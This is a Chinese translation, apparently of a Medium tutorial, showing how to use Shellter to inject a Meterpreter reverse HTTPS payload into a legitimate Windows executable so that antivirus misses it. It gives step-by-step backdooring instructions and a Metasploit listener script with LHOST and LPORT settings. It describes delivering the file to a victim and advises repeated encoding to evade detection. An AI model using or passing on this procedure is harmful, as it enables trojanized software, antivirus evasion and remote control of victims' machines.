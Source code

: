 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [medium.com](https://medium.com/@arshiadev/how-to-bypass-antiviruses-by-using-shelter-978443b386d8)

> Shellter is another antivirus Evasion tool, which infects the PE dynamically and is also used to inje......

Shellter 是另一种防病毒规避工具，它动态感染 PE，还用于将 shellcode 注入任何 32 位本机 Windows 应用程序。它允许攻击者自定义有效负载或利用 Metasploit 框架。大多数防病毒软件将无法识别恶意可执行文件，这取决于攻击者如何重新编码无穷无尽的签名。

Shellter 可以通过在终端中运行 **apt-get install shellter 来安装**。安装应用程序后，我们应该能够通过在终端中发出 shellter 命令来打开 **Shellter**，并能够看到以下屏幕截图，我们准备在任何可执行文件上创建后门：

![](https://miro.medium.com/max/875/1*1kTrPG8Sb5xC1INXJM2Qfw.jpeg)

Shellter 启动后，以下是创建恶意可执行文件的典型步骤：

1.  攻击者应该可以选择**自动 (A)** 或**手动 (M)** 以及**帮助 (H)**。出于演示目的，我们将使用**自动**模式。
2.  下一步是提供 PE 目标文件；攻击者可以选择任何**.exe** 文件或利用 **/usr/share/windows-binaries/** 中的可执行文件。
3.  一旦提供了 PE 目标文件位置，Shellter 将能够反汇编 PE 文件，如下面的屏幕截图所示：

![](https://miro.medium.com/max/875/1*KymQq9-wocCn7UdagRFrFQ.jpeg)

4. 4. 拆解完成后，Shellter 会提供是否开启隐身模式的选项。

5. 选择隐身模式后，您将能够将列出的有效负载注入到同一个 PE 文件中，如下图所示，或者您可以使用 c 自定义有效负载：

![](https://miro.medium.com/max/875/1*vBg-5pp7e6PS9PfoZIMXaA.jpeg)

6. 在本例中，我们使用 Meterpreter_reverse_HTTPS 并提供 LHOST 和 LPORT，如下图所示：

![](https://miro.medium.com/max/573/1*waMCajai19EqLv5DCY_kZg.jpeg)

7. 所有需要的信息都在提供的同一个 PE 文件中提供给 Shellter，因为输入现在与有效负载一起注入，并且注入完成：

![](https://miro.medium.com/max/875/1*YmtB8ZaD6A0QNEcUZ2IxEQ.jpeg)

现在，最终的可执行文件已准备好被防病毒软件扫描。在本例中，我们将使用 Windows Bitdefender 扫描可执行文件，如下图所示：

![](https://miro.medium.com/max/875/1*sbCDO6Sbi9Lvd0IDA28L7g.jpeg)

一旦这个可执行文件被交付给受害者，攻击者现在将能够根据有效负载打开监听器；在我们的示例中，LHOST 是 192.168.0.24，LPORT 是 443：

```
使用exploit/multi/handler 
设置有效负载 windows/meterpretere/reverse_HTTPS
设置 lhost <你的 IP 地址>
设置 lport 443
设置退出会话假
利用 -j -z

```

现在，您可以将前面的命令列表保存为 listener.rc 的文件名，并通过运行 msfconsole -r listener.rc 使用 Metasploit 运行它。一旦受害者在没有被杀毒软件或任何安全控制阻止的情况下打开，它应该会毫无问题地打开通往攻击者 IP 的隧道，如下面的屏幕截图所示：

![](https://miro.medium.com/max/875/1*X1kd-7m6_EC0looVE-IdrA.jpeg)

这就是构建后门并将其植入受害系统的最有效方法。

大多数防病毒软件将能够捕获反向 Meterpreter shell；但是，建议渗透测试人员在放弃漏洞利用之前进行多次编码。